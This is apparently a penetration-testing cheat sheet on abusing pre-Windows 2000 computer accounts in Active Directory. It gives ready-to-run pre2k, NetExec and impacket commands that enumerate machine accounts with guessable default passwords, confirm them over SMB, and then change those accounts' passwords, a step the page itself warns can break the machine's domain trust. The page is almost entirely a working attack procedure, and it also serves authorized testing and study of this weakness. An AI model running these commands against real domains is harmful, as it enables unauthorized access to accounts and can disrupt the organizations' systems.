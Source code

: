 ___
##  TL;DR:

### Identify


**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps -save
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers> -save
```

!!! alert "Note"
	You can pass `-n` to check blank passwords as well

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "Note"
	The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

### Exploit

!!! alert "Note"
	this is semi-destructive, you're changing the machine password, may require the object be rejoined to the domain


**Change the account password:**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```
or
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```